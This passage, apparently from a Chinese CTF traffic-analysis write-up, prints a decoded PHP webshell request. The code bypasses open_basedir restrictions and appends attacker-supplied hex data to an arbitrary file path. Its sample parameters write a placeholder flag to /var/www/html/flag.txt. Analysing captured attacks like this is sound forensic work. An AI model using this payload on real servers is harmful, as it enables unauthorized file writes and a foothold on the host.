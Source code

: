 整理完整PHP脚本如下；

	1=@ini_set("display_errors", "0");  
	@set_time_limit(0);  
	$opdir=@ini_get("open_basedir");  
	if($opdir) {  
	    $ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);  
	    $oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);  
	    @array_push($oparr,$ocwd,sys_get_temp_dir());  
	    foreach($oparr as$item) {  
	        if(!@is_writable($item)){continue;};  
	        $tmdir=$item."/.368479785";  
	        @mkdir($tmdir);  
	        if(!@file_exists($tmdir)){continue;}  
	        $tmdir=realpath($tmdir);  
	        @chdir($tmdir);  
	        @ini_set("open_basedir", "..");  
	        $cntarr=@preg_split("/\\\\|\//",$tmdir);  
	        for($i=0;$i<sizeof($cntarr);$i++){  
	            @chdir("..");  
	        };  
	        @ini_set("open_basedir","/");  
	        @rmdir($tmdir);  
	        break;  
	    };  
	};  
	function asenc($out){return$out;};  
	function asoutput(){  
	    $output=ob_get_contents();  
	    ob_end_clean();  
	    echo "6960"."cb205";  
	    echo @asenc($output);  
	    echo "1e0a"."91914";  
	}  
	ob_start();  
	try{  
	    $f=base64_decode(substr($_POST["t41ffbc5fb0c04"],2));  
	    $c=$_POST["ld807e7193493d"];  
	    $c=str_replace("\r","",$c);  
	    $c=str_replace("\n","",$c);  
	    $buf="";  
	    for($i=0;$i<strlen($c);$i+=2)  
	        $buf.=urldecode("%".substr($c,$i,2));  
	    echo(@fwrite(fopen($f,"a"),$buf)?"1":"0");  
	}catch(Exception $e){  
	    echo "ERROR://".$e->getMessage();  
	};  
	asoutput();  
	die();  
	&ld807e7193493d=666C61677B77726974655F666C61677D0A  
	&t41ffbc5fb0c04=0ZL3Zhci93d3cvaHRtbC9mbGFnLnR4dA==
